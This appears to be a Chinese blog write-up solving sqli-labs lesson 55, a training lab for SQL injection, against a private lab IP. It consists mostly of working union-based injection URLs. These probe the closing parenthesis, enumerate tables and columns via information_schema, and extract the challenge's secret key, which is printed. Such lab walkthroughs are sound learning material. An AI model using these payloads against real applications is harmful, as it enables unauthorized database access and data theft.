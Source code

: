 ```yaml
---
title: sqli-labs lession-55 GET-Union-变化2-仅允许14次请求
date: 2018-11-28 16:38:44
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-55 GET-Union-变化2-仅允许14次请求

---

## 手注

难点还是快速找到闭合点

`http://10.60.17.35:8082/Less-55/?id=1)and+1=1%23`

`http://10.60.17.35:8082/Less-55/?id=1)and+1=2%23`

`http://10.60.17.35:8082/Less-55/index.php?id=id=-1)+union+select+1,(database()),user()%23`

![001](/img/sql/Lesson-55/001.png)

`http://10.60.17.35:8082/Less-55/index.php?id=id=-1)+union+select+1,(select+group_concat(table_name)from+information_schema.TABLES+WHERE+TABLE_schema='challenges'),user()%23`

![002](/img/sql/Lesson-55/002.png)

`http://10.60.17.35:8082/Less-55/index.php?id=id=-1)++union+select+1,(select+group_concat(column_name)from+information_schema.columns+WHERE+TABLE_schema='challenges'+and+table_name='5uq6lajw6o'),user()%23`

![003](/img/sql/Lesson-55/003.png)

`http://10.60.17.35:8082/Less-55/index.php?id=id=-1)+union+select+1,(select+GROUP_CONCAT(secret_Q3R0)from challenges.5uq6lajw6o),user()%23`

![004](/img/sql/Lesson-55/004.png)

提交`mRYe1KdluPEiZrDTZQtW1J7o`成功。

![005](/img/sql/Lesson-55/005.png)



